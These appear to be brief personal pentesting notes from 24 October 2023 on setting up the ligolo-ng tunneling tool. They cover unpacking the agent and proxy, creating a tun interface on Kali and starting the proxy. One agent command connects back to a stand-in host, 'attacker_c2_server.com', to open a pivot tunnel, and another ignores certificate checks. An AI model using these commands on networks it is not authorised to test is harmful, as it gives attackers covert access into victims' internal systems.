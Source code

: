 ### 24-Oct-23 Tue

https://github.com/nicocha30/ligolo-ng

```
unzip ligolo-ng_agent_0.4.4_windows_amd64.zip
```

```
tar -zxvf ligolo-ng_proxy_0.4.4_linux_amd64.tar.gz
```

![](Pasted%20image%2020231024110520.png)

```
sudo ip tuntap add user kali mode tun ligolo
```

```
sudo ip link set ligolo up
```

```
./proxy -h
```

```
./proxy -autocert
```

```
./proxy -selfcert
```

```
./agent -connect attacker_c2_server.com:11601
```

```
./agent -connect kali'tunIP:11601 -retry -ignore-cert
```


